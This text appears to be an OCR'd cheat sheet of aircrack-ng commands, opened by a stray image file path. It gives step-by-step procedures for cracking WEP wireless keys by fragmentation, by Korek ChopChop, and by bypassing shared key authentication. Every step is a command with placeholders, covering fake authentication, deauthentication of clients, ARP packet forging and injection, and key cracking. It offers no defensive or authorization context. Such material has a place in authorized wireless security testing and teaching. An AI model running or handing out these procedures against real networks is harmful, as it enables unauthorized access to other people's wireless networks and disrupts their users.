 ```
   airmon-ng start <interface> <AP_Channel>                                         ## setting the wireless card (wlan0) to monitor mode
   airodump-ng -c <AP_Channel> --bssid <AP_MAC> -w <capture_file> <interface>       ## listening to the target AP on the specified channel
   aireplay-ng -1 0 -e <ESSID> -a <AP_MAC> -h <Your MAC> <interface>                ## performing a fake authentication attack against AP
   aireplay-ng -5 -b <AP_MAC> -h <Your MAC> <interface>                             ## performing a fragmentation attack against AP
   packetforge-ng -0 -a <AP_MAC> -h <Your_MAC> -l <Source_IP> -k <Dest_IP> -y <XOR_file> -w <output_file>     ## creating an ARP request packet using packetforge-ng
   tcpdump -n -vvv -e -s0 -r <output_file>                                          ## check the contents of the created package
   aireplay-ng -2 -r <output_file> <interface>                                      ## injecting the generated packet into the network (If the correct pack is injected, the IV amount will increase rapidly.)
   aircrack-ng <capture_file>                                                       ## cracking WEP key (In order to achieve a successful result, you need to catch a sufficient number of IVs during the attack.)
   

## Korek ChopChop Attack

   airmon-ng start <interface> <AP_Channel>                                         ## setting the wireless card (wlan0) to monitor mode
   airodump-ng -c <AP_Channel> --bssid <AP_MAC> -w <capture_file> <interface>       ## listening to the target AP on the specified channel
   aireplay-ng -1 0 -e <ESSID> -a <AP_MAC> -h <Your_MAC> <interface>                ## performing a fake authentication attack against AP
   aireplay-ng -4 -b <AP_MAC> -h <Your_MAC> <interface>                             ## performing a korek chopchop attack against AP
   packetforge-ng -0 -a <AP_MAC> -h <Your_MAC> -l <Source_IP> -k <Dest_IP> -y <XOR_file> -w <output_file>     ## creating an ARP request packet using packetforge-ng
   tcpdump -n -vvv -e -s0 -r <output_file>                                          ## check the contents of the created package
   aireplay-ng -2 -r <output_file> <interface>                                      ## injecting the generated packet into the network (If the correct pack is injected, the IV amount will increase rapidly.)
   aircrack-ng <capture_file>                                                       ## cracking WEP key (In order to achieve a successful result, you need to catch a sufficient number of IVs during the attack.)


## Bypassing WEP Shared Key Authentication
   
   airmon-ng start <interface> <AP_Channel>                                                  ## setting the wireless card (wlan0) to monitor mode
   airodump-ng -c <AP_Channel> --bssid <AP_MAC> -w <capture_file> <interface>                ## listening to the target AP on the specified channel
   aireplay-ng -0 1 -a <AP_MAC> -c <Client_MAC> <interface>                                  ## performing a deauthentication attack against AP to capture the PRGA XOR keystream
   aireplay-ng -1 0 -e <ESSID> -y <keystream file> -a <AP_MAC> -h <Your_MAC> <interface>     ## performing a fake shared key authentication using XOR key flow
   aireplay-ng -3 -b <AP_MAC> -h <Your_MAC> <interface>                                      ## performing a ARP Request Replay attack against AP
   aireplay-ng -0 1 -a <AP_MAC> -c <Client_MAC> <interface>                                  ## performing a deauthentication attack against AP
   aircrack-ng <capture_file>                                                                ## cracking WEP key (In order to achieve a successful result, you need to catch a sufficient number of IVs during the attack.)
   
   
   
   
```